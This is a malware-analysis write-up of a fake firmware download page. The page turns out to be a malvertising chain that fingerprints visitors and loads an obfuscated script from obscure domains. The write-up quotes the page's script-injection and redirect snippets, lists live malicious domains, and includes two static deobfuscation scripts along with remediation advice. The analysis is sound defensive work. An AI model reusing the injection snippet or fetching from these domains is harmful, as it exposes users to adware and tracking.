

# Comprehensive technical write-up — investigation of `https://gofirmware.com/downloads/pxie-8880-firmware`

**Author:** Gabriel Adams
**Date:** 2025-09-27 
**Scope:** Static analysis of a suspiciouswebsite.


# Executive summary #

I investigated `https://gofirmware.com/downloads/pxie-8880-firmware` and determined it is not a firmware distribution page but a malvertising / adware delivery chain. The page serves an HTML “loading” stub that immediately runs client-side redirect logic and injects an obfuscated external loader (`mw.min.js`) from `hoksomuptak.net`. That loader fingerprints the browser (using modern high-entropy APIs), appends that data to redirect/fetch URLs, and contacts multiple obscure domains (`zdzhk.com`, `kbvcd.com`, `my.rtmark.net`, `dulotadtor.com`, `abunownon.com`, `dawac.com`) to pull staged resources (not firmware binaries). Importantly, some routing decisions occur server-side (host identified as `ak.inazumarillom.com`), so visitors may see different behavior based on platform, IP, referrer, or fingerprint data. The flow is consistent with drive-by malvertising/push-subscription abuse and not legitimate firmware delivery.


# Detailed findings

## 1 — What I started with

- **Target URL:** `https://gofirmware.com/downloads/pxie-8880-firmware`
    
- **Goal:** Determine what runs when someone clicks the download link and whether it led to malicious behavior.
    



## 2 — Environment and safety posture

- I knew there was a possibility of malicious code execution so I did all analysis in a new Ubuntu 25.x.x VM, on a VLAN sectioned off from the rest of my personal network, running an updated browser. 


## 3 — Commands I ran

I used `curl` to fetch headers and page content, and to download the external script, then used Node.js scripts for static deobfuscation.

```bash
# Save page source and capture verbose trace (safe; does not execute JS)
curl -v -L --max-redirs 20 "https://gofirmware.com/downloads/pxie-8880-firmware" -o gofirmware_page.html 2> curl_trace.txt

# Inspecting headers quickly
curl -I -L "https://gofirmware.com/downloads/pxie-8880-firmware"

# Downloading the external loader referenced in the page (protocol-relative -> https)
curl -sS -o mw.min.js "https://hoksomuptak.net/0c5/9cac6/mw.min.js?z=8643282&sw=/sw-check-permissions-80925.js"

# Inspecting the start of the downloaded loader (safe, static)
head -n 200 mw.min.js

# Static decoding 
node deobfuscate.js
node reconstruct_urls.js
```

(You can find the Node scripts I used earlier — they parse the mapping object inside `mw.min.js`, apply the Caesar-style decode seen in the obfuscated code, and produce decoded key/value pairs and reconstructed URLs. Those scripts only decode strings and never `eval` or run remote fetches.)


## 4 — What the initial HTML contained (static observation)

From `gofirmware_page.html` (`loading-page`):

- A **meta refresh**:
    
    ```html
    <meta http-equiv="refresh" content="5;url=https://ak.inazumarillom.com/4/8643286?var=mfa">
    ```
    
    → Redirects client after 5 seconds.
    
- An **inline script** that:
    
    - Contains obfuscated code that reconstructs a query string using `navigator.userAgentData` (if present).
        
    - Builds a URL and executes `window.location.replace(...)` with those appended parameters.
        
    - Injects an external script via:
        
        ```js
        s.src='//hoksomuptak.net/0c5/9cac6/mw.min.js?z=8643282' + '&sw=/sw-check-permissions-80925.js';
        document.head.appendChild(s);
        ```
        
    - Yandex Metrika analytics snippet (tracking) was present.
        

**Interpretation:** the page tries to ensure a redirect occurs (meta refresh + JS). The JS collects browser fingerprint info and loads an external, obfuscated loader. The external loader (mw.min.js) is the real workhorse.


## 5 — External loader (`mw.min.js`) — static analysis & decoding

I downloaded `mw.min.js` and performed static decoding of the mapping object found inside the obfuscated code.

### How the loader was obfuscated

- The file contains a big mapping object with strings obfuscated by a simple per-letter rotation (a Caesar-like shift ±12) and dynamic getters.
    
- The loader computes many values via `Object.defineProperty` getters and only decodes strings on demand.
    

### What I decoded (representative highlights)

- **Decoded domains referenced by the loader:**
    
    - `https://zdzhk.com`
        
    - `https://kbvcd.com`
        
    - `https://my.rtmark.net`
        
    - `https://dulotadtor.com`
        
    - `https://abunownon.com`
        
    - `https://dawac.com`
        
- **Decoded resource paths:**
    
    - `/contents/s/a7/7e/0e/.../01027922412471.png`
        
    - `/contents/s/a7/7e/0e/.../01027922412470.png`
        
    - `/4/` (short directory used in routing)
        
- **Decoded behavior keys (indicative strings):**
    
    - `forcePopup`, `swDefaultBanner`, `Personal Offer for You.`, `swPingDomain`, `swRunCmdCache`, `autoInstall`, `getOptionsFromUrl`
        
- **Loader logic (static reconstruction):**
    
    - The loader constructs fetch URLs by combining a base domain + path tokens, fetches those resources, creates DOM nodes, sets attributes (CORS, crossorigin, dataset), and injects downloaded content into the page (`createElement`, `appendChild`, `createTextNode`).
        
    - The loader has fallback logic: if a fetch fails, it constructs alternative URLs (including a server-side host + path combination) and retries.
        
    - Many reconstructed URLs point to `.png` resources; the loader may treat these as images, tracking pixels, decoy content, or containers for encoded payloads.
        

**Interpretation:** `mw.min.js` is a loader that fingerprints the client and pulls staged resources from a set of obscure domains. It injects content into the page, can force popups or banners, and contains service-worker related config keys — all consistent with malvertising/service-worker adware patterns.


## 6 — Server-side logic and platform-dependent behavior

- The HTML’s meta refresh target was `https://ak.inazumarillom.com/4/8643286?var=mfa`.
    
- The inline JS also appended fingerprints and used `window.location.replace(...)` to move the user to a URL that includes those fingerprints.
    
- From logs, colleagues, and the loader’s fallback logic, I concluded **some routing decisions happen on the server side** (host: `ak.inazumarillom.com`). That means:
    
    - The server at `ak.inazumarillom.com` can examine incoming request headers, IP address, referrer, and any fingerprint query parameters and return different content (benign ad, aggressive popup, link to malware) depending on those signals.
        
    - Consequently, two different visitors (or the same visitor from two different devices) may see different destinations or payloads.
        

**Why that matters:** server-side routing makes detection and reproduction harder — static analysis will only reveal the loader and how it contacts the server; the server can vary behavior and only serve the malicious payload under certain conditions (geo, IP range, referrer, UA, cookie presence, or a fingerprint threshold).


## 7 — Fingerprinting details (what the JS collected and how it was used)

The loader used the modern browser API `navigator.userAgentData` and its `getHighEntropyValues()` call (where available) to get high-entropy fields. Specifically:

- **Fields fetched (when supported):**
    
    - `mobile` (is the device mobile)
        
    - `model` (device model)
        
    - `platform` (OS family)
        
    - `platformVersion` (OS version)
        
    - `uaFullVersion` (browser full version)
        
- **How these values were used:**
    
    - Constructed a query string like `?is_mobile=true&android_model=<encoded>&os=<encoded>&os_version=<encoded>&browser_version=<encoded>`
        
    - Appended to redirect/fetch URLs and sent to the server. That enriched fingerprint allowed the server-side logic to:
        
        - target specific device types (mobile vs desktop),
            
        - select specific offers or payloads,
            
        - evade generic sandboxing by only serving malicious content to specific environments.
            

**Note on privacy:** `navigator.userAgentData.getHighEntropyValues()` supplies more granular information than the classic `navigator.userAgent` string; attackers use it to fingerprint more reliably.


## 8 — Reconstructed URL patterns and what they imply

- I reconstructed ~72 URL combinations by combining decoded base domains with the `/contents/.../*.png` paths and `/4/` endpoints. Examples:
    
    - `https://zdzhk.com/contents/.../01027922412471.png`
        
    - `https://kbvcd.com/4/`
        
    - `https://my.rtmark.net/contents/.../01027922412470.png`
        

**Interpretation of patterns:**

- `.png` targets often used as tracking pixels or stealth containers for encoded data. Attackers can store JS or data in what looks like image resources and decode them client-side.
    
- The `/4/` endpoints look like campaign/redirect endpoints that may return different HTML/JS depending on server-side decision logic.
    
- The presence of multiple domains provides redundancy and evasion — if one domain is blocked, another can be used.
    


## 9 — Evidence of adware/service-worker strategies

- Many decoded keys referenced service-worker concepts and persistent banner/popup logic (`sw*` keys, `autoInstall`, `forcePopup`, `assign`, `defaultBannerDomain`).
    
- This indicates the loader either:
    
    - uses service-workers to persist or cache behavior across sessions (service-worker adware), or
        
    - registers scripts that make investigation harder (background network calls and event-driven behavior).
        

**Takeaway:** even if no binary is installed, the browser environment can be abused to present persistent ads, notifications, or re-run redirect behavior until the service-worker or cached entries are removed.


## 10 — Impact assessment (if you clicked the link)

- **If you only clicked and did not interact further:**
    
    - Most likely outcomes: your IP, referrer, and detailed browser fingerprint were collected. You may have seen aggressive popups/ads. No evidence from static analysis that simply visiting automatically executed a binary on your OS. That said, there is logic present to analyze what platform you are on, and server logic based on that information. Given that information it is completely possible that if you are on a specific platform that they are wanting to target then you would get a malicious payload automatically downloaded (and ran if they were using a browser exploit). I'm not going to test it on a bunch of different platforms so I'm just giving the general advice **to be safe**. 
        
- **If you interacted with prompts, accepted notifications, or downloaded and ran a file:**
    
    - Risk escalates — you may have installed adware, an unwanted extension, or in a worst case, a further payload.
        
- **Potential persistent artifacts in the browser:**
    
    - Registered service-worker(s).
        
    - Push notification subscriptions.
        
    - LocalStorage / IndexedDB entries used by the loader.
        
    - Cached banner assets or scripts.
        


## 11 — Recommendations & remediation steps

### Immediate (for users)

1. **If you clicked but didn’t interact further:**
    
    - Clear the site data in your browser for `gofirmware.com` and the domains seen (clear service-workers, site cookies, localStorage, and notifications).
        
    - Steps (Chrome/Chromium): Settings → Privacy and security → Cookies and other site data → See all site data and permissions → search and remove entries for `gofirmware.com`, `hoksomuptak.net`, `zdzhk.com`, etc. Also check `chrome://serviceworker-internals/` or devtools Application → Service Workers.
        
2. **If you accepted any prompts or downloaded files:**
    
    - Do not run downloaded files. Preserve copies and hashes. Investigate inside a VM or submit to VirusTotal / Hybrid Analysis. If you installed something, follow removal steps in a sandbox/VM first; if compromised, disconnect and escalate.
        

### Technical / SOC

1. **Block at DNS/firewall**:
    
    - High priority: `zdzhk.com`, `kbvcd.com`, `dulotadtor.com`, `abunownon.com`.
        
    - Medium: `my.rtmark.net`, `dawac.com`.
        
    - Also block `hoksomuptak.net` and `ak.inazumarillom.com` (loader origin & redirect controller).
        
2. **Preserve evidence**: `curl_trace.txt`, `gofirmware_page.html`, `mw.min.js`, and outputs from the deobfuscation scripts.
    
        
3. **Search logs**: inspect web/proxy logs for requests to the domains above to identify other internal clients that may have visited these pages.
    
4. **Endpoint checks**: look for recent installs, new scheduled tasks, suspicious browser extensions, or service-worker registrations on user browsers.
    

### Reporting / takedown

- Consider reporting the malicious domains to:
    
    - Your internal threat intel/SOC team,
        
    - DNS/ISP abuse contacts for the domains,
        
    - Public services like abuse.ch or the hoster of the domains (from WHOIS/hosting lookup).
        
- Submit `mw.min.js` and the reconstructed URLs to VT / Hybrid Analysis for broader telemetry.
    


## 12 — Appendix A — Key artifacts archived

- `curl_trace.txt` — HTTP headers and redirection trace.
    
- `gofirmware_page.html` (page source).
    
- `loading-page` (local file copy of the HTML).
    
- `mw.min.js` (downloaded loader).
    
- Node scripts used: `deobfuscate.js`, `reconstruct_urls.js` (safe static decoders).
    
- Outputs from Node scripts: the decoded mapping and the reconstructed URL list.
    

`deobfuscate.js:`
```JavaScript
// deobfuscate.js

// Static deobfuscator for mw.min.js mapping object

// - Reads mw.min.js, finds Object.entries({...}) block

// - Extracts simple key:'string' and key:number pairs (skips functions/complex values)


// - Prints decoded mapping, URL-like values, and tries to reconstruct fetch URL patterns

  

const fs = require('fs');

const path = require('path');

  

const INFILE = path.join(__dirname, 'mw.min.js');

  

if (!fs.existsSync(INFILE)) {

console.error(`ERROR: ${INFILE} not found. Put mw.min.js in same folder as this script.`);

process.exit(1);

}

  

const raw = fs.readFileSync(INFILE, 'utf8');

  

// 1) Locate Object.entries({...}) block

const startMarker = 'Object.entries(';

let idx = raw.indexOf(startMarker);

if (idx === -1) {

console.error('ERROR: Could not find "Object.entries(" in mw.min.js');

process.exit(1);

}

idx = raw.indexOf('{', idx + startMarker.length);

if (idx === -1) {

console.error('ERROR: Could not find "{" after Object.entries(');

process.exit(1);

}

  

// find matching closing brace for the top-level object (handles nested braces)

let depth = 0;

let endIdx = -1;

for (let i = idx; i < raw.length; i++) {

const ch = raw[i];

if (ch === '{') depth++;

else if (ch === '}') {

depth--;

if (depth === 0) {

endIdx = i;

break;

}

}

}

if (endIdx === -1) {

console.error('ERROR: Could not find end of mapping object');

process.exit(1);

}

  

const objText = raw.slice(idx, endIdx + 1);

  

// 2) Extract simple key:'string' and key:"string" and key:number pairs

// We'll intentionally only capture primitive string/number assignments to avoid running code

const kvRegexSingle = /(?:(["']?)([A-Za-z0-9_$]+)\1)\s*:\s*'((?:\\'|[^'])*)'/g;

const kvRegexDouble = /(?:(["']?)([A-Za-z0-9_$]+)\1)\s*:\s*"((?:\\"|[^"])*)"/g;

const kvRegexNum = /(?:(["']?)([A-Za-z0-9_$]+)\1)\s*:\s*([0-9]+(?:\.[0-9]+)?)/g;

  

const mapping = {};

  

// single-quoted strings

let m;

while ((m = kvRegexSingle.exec(objText)) !== null) {

const key = m[2];

const rawVal = m[3].replace(/\\'/g, "'"); // unescape simple escaped single quotes

mapping[key] = rawVal;

}

// double-quoted strings

while ((m = kvRegexDouble.exec(objText)) !== null) {

const key = m[2];

const rawVal = m[3].replace(/\\"/g, '"');

mapping[key] = rawVal;

}

// pretty numbers

while ((m = kvRegexNum.exec(objText)) !== null) {

const key = m[2];

const rawVal = m[3];

if (!(key in mapping)) mapping[key] = Number(rawVal);

}

  

if (Object.keys(mapping).length === 0) {

console.error('ERROR: No simple key:string/number pairs found. The file format may differ.');

process.exit(1);

}

  

// 3) Caesar-like decode function (mirrors the one in the obfuscated script)

// It rotates letters by -12 (i.e., (c - 65 + 26 - 12) % 26)

function decodeCaesar(str) {

if (typeof str !== 'string') return str;

return str

.split('')

.map((s) => {

const c = s.charCodeAt(0);

if (c >= 65 && c <= 90) return String.fromCharCode(((c - 65 + 26 - 12) % 26) + 65);

if (c >= 97 && c <= 122) return String.fromCharCode(((c - 97 + 26 - 12) % 26) + 97);

return s;

})

.join('');

}

  

// 4) Decode values

const decoded = {};

for (const k of Object.keys(mapping)) {

const v = mapping[k];

decoded[k] = typeof v === 'string' ? decodeCaesar(v) : v;

}

  

// 5) Collect URL-like decoded values

const urlCandidates = [];

for (const [k, v] of Object.entries(decoded)) {

if (typeof v === 'string') {

// detect proto-like or domain-like strings

if (v.match(/^[a-z][a-z0-9+\-.]*:\/\//i) || v.match(/\.[a-z]{2,6}(?:[:\/]|$)/i) || v.match(/\/[A-Za-z0-9._\-]{4,}/)) {

urlCandidates.push({ key: k, value: v });

}

}

}

  

// 6) Try reconstructing fetch URL patterns used in the loader

// The loader used something like `${t[x.ar]}${t[x.Xr]}${t[x.Jr]}`

// We'll try combinations of likely keys

const combosToTry = [

['ar', 'Xr', 'Jr'],

['E', 'i', 'P'],

['E', 'P', 'f'],

['E', 'P', 'P'],

['E', 'i', 'f'],

['e', 'i', 'P'],

['ar', 'Xr', 'Eq'], // extra attempts

];

  

const reconstructed = [];

for (const combo of combosToTry) {

if (decoded[combo[0]] && decoded[combo[1]] && decoded[combo[2]]) {

reconstructed.push({

combo: combo.join('+'),

url: `${decoded[combo[0]]}${decoded[combo[1]]}${decoded[combo[2]]}`,

});

}

}

  

// 7) Also search the whole decoded mapping values for 'tffbe' (looks like obf protocol) and convert if found.

// The decodeCaesar should have already turned 'tffbe' into something readable by now

const tffbeHits = [];

for (const [k, v] of Object.entries(decoded)) {

if (typeof v === 'string' && v.match(/^[a-z]{3,6}:\/\//i)) {

tffbeHits.push({ key: k, value: v });

}

}

  

// 8) Print results 

console.log('\n=== Decoded mapping (sample) ===');

const allKeys = Object.keys(decoded).sort();

for (const k of allKeys) {

console.log(`${k}: ${decoded[k]}`);

}

console.log(`\n(total decoded keys: ${allKeys.length})`);

  

if (urlCandidates.length) {

console.log('\n=== URL-like decoded values ===');

urlCandidates.forEach((u) => console.log(`${u.key}: ${u.value}`));

} else {

console.log('\nNo obvious URL-like decoded values found in simple pairs.');

}

  

if (reconstructed.length) {

console.log('\n=== Best-effort reconstructed fetch URL(s) ===');

reconstructed.forEach((r) => console.log(`${r.combo} -> ${r.url}`));

} else {

console.log('\nNo fetch URL reconstructed from the tried key combos. You can add more combos in combosToTry.');

}

  

if (tffbeHits.length) {

console.log('\n=== Protocol-like hits (decoded) ===');

tffbeHits.forEach((h) => console.log(`${h.key}: ${h.value}`));

}

  

console.log('\n=== Notes ===');

console.log('- This extractor only captures simple key:string and key:number pairs from the mapping object.');

console.log('- The original script used getters to decode strings on-demand; this static extractor decodes the raw stored strings.');

console.log('- Functions, arrays, and computed values inside the mapping are intentionally NOT executed for safety.');

console.log('\nDone.');
```


``reconstruct_urls.js:``
```JavaScript 

// This thing does pretty muich the same as the other script but just outputs it cleaner because chat is way better at JavaScript then me lol


// - Finds decoded base domains (http/https) and decoded path-like values (starting with / or containing "/contents/")

// - Outputs combinations (domain + path) and other sensible variants
  

const fs = require('fs');

const path = require('path');

  

const INFILE = path.join(__dirname, 'mw.min.js');

if (!fs.existsSync(INFILE)) {

console.error('ERROR: mw.min.js not found in current directory.');

process.exit(1);

}

  

const raw = fs.readFileSync(INFILE, 'utf8');

  

// locate Object.entries({...}) block as before

const startMarker = 'Object.entries(';

let idx = raw.indexOf(startMarker);

if (idx === -1) {

console.error('ERROR: Could not find "Object.entries(" in mw.min.js');

process.exit(1);

}

idx = raw.indexOf('{', idx + startMarker.length);

if (idx === -1) {

console.error('ERROR: Could not find opening "{" after Object.entries(');

process.exit(1);

}

let depth = 0;

let endIdx = -1;

for (let i = idx; i < raw.length; i++) {

const ch = raw[i];

if (ch === '{') depth++;

else if (ch === '}') {

depth--;

if (depth === 0) { endIdx = i; break; }

}

}

if (endIdx === -1) {

console.error('ERROR: Could not locate end of the mapping object.');

process.exit(1);

}

const objText = raw.slice(idx, endIdx + 1);

  

// regexes for primitive key: 'string' and "string" and numbers

const kvRegexSingle = /(?:(["']?)([A-Za-z0-9_$]+)\1)\s*:\s*'((?:\\'|[^'])*)'/g;

const kvRegexDouble = /(?:(["']?)([A-Za-z0-9_$]+)\1)\s*:\s*"((?:\\"|[^"])*)"/g;

const kvRegexNum = /(?:(["']?)([A-Za-z0-9_$]+)\1)\s*:\s*([0-9]+(?:\.[0-9]+)?)/g;

  

const mapping = {};

  

// extract single-quoted strings

let m;

while ((m = kvRegexSingle.exec(objText)) !== null) {

const key = m[2];

const rawVal = m[3].replace(/\\'/g, "'");

mapping[key] = rawVal;

}

// double-quoted

while ((m = kvRegexDouble.exec(objText)) !== null) {

const key = m[2];

const rawVal = m[3].replace(/\\"/g, '"');

mapping[key] = rawVal;

}

// numbers

while ((m = kvRegexNum.exec(objText)) !== null) {

const key = m[2];

const rawVal = m[3];

if (!(key in mapping)) mapping[key] = Number(rawVal);

}

  

if (Object.keys(mapping).length === 0) {

console.error('ERROR: No simple key:string/number pairs found. The file may be in a different format.');

process.exit(1);

}

  

// Caesar-like decode function (same shift seen in the original)

function decodeCaesar(str) {

if (typeof str !== 'string') return str;

return str

.split('')

.map((s) => {

const c = s.charCodeAt(0);

if (c >= 65 && c <= 90) return String.fromCharCode(((c - 65 + 26 - 12) % 26) + 65);

if (c >= 97 && c <= 122) return String.fromCharCode(((c - 97 + 26 - 12) % 26) + 97);

return s;

})

.join('');

}

  

// decode mapping

const decoded = {};

for (const k of Object.keys(mapping)) {

const v = mapping[k];

decoded[k] = (typeof v === 'string') ? decodeCaesar(v) : v;

}

  

// collect domains and path-like strings

const domains = [];

const paths = [];

for (const [k, v] of Object.entries(decoded)) {

if (typeof v !== 'string') continue;

// domain-like: begins with http/https

if (v.match(/^[a-z][a-z0-9+\-.]*:\/\//i)) {

domains.push({ key: k, value: v });

}

// path-like: begins with / or contains /contents/

if (v.startsWith('/') || v.includes('/contents/') || v.match(/\/[A-Za-z0-9._\-]{4,}/)) {

// skip domains that are mistakenly captured as paths

if (!v.match(/^[a-z][a-z0-9+\-.]*:\/\//i)) {

paths.push({ key: k, value: v });

}

}

}

  

// Deduplicate helpers

const uniq = (arr, accessor = x => x) => {

const seen = new Set();

const out = [];

for (const it of arr) {

const id = accessor(it);

if (!seen.has(id)) { seen.add(id); out.push(it); }

}

return out;

};

  

const uniqDomains = uniq(domains, d => d.value);

const uniqPaths = uniq(paths, p => p.value);

  

// Build combinations

const combos = [];

for (const d of uniqDomains) {

for (const p of uniqPaths) {

// clean concatenation: ensure single slash

let full1 = d.value.endsWith('/') ? d.value.slice(0, -1) + p.value : d.value + p.value;

// Some code patterns omitted the protocol and/or trailing pieces; also create variant without protocol

combos.push({

domainKey: d.key,

pathKey: p.key,

url: full1

});

  

// variant: if domain had no trailing slash but path doesn't start with slash (rare), also generate with slash

if (!p.value.startsWith('/')) {

combos.push({

domainKey: d.key,

pathKey: p.key,

url: d.value + '/' + p.value

});

}

  

// plain join with double path (some reconstructions in your earlier output showed domain + P + '/' + f)

// create combos of two paths joined

for (const p2 of uniqPaths) {

combos.push({

domainKey: d.key,

pathKey: `${p.key}+${p2.key}`,

url: full1 + (p2.value.startsWith('/') ? p2.value : '/' + p2.value)

});

}

}

}

  

// Also include domain-only entries and path-only entries for inspection

const domainOnly = uniqDomains.map(d => ({ key: d.key, value: d.value }));

const pathOnly = uniqPaths.map(p => ({ key: p.key, value: p.value }));

  

// Print results

console.log('\n=== Decoded domains ===');

domainOnly.forEach(d => console.log(`${d.key}: ${d.value}`));

  

console.log('\n=== Decoded paths / resources ===');

pathOnly.forEach(p => console.log(`${p.key}: ${p.value}`));

  

console.log(`\n=== Reconstructed URL combinations (best-effort) - ${combos.length} items (showing up to 200) ===`);

combos.slice(0, 200).forEach(c => console.log(`${c.domainKey}+${c.pathKey} -> ${c.url}`));

  

if (combos.length > 200) {

console.log(`\n(... ${combos.length - 200} more combinations not printed)`);

}

  

process.exit(0);

```
## 13 — Appendix B — Short glossary / what things mean

- **Meta refresh:** client-side HTML redirect via meta tag.
    
- **navigator.userAgentData.getHighEntropyValues:** modern API to get detailed browser/OS/device info.
    
- **Service-worker (sw):** browser background worker that can persist behavior and run when the site is not loaded. Abused by adware for persistence.
    
- **Malvertising:** malicious advertising that either redirects users to scams or delivers payloads via ad networks.
    
- **Drive-by:** a web visit that causes malicious behavior without explicit user intent to download malware.
    


## 14 — Final conclusion

The `gofirmware.com` “firmware” download link is a façade. The real activity is a malvertising/adware pipeline that fingerprints visitors, consults server-side routing logic (so victims see conditional behavior), and pulls staged resources from a network of obscure domains. No legitimate firmware was found. Treat the link and associated domains as malicious, block them, and analyze any dynamic behavior only in a controlled sandbox/VM.

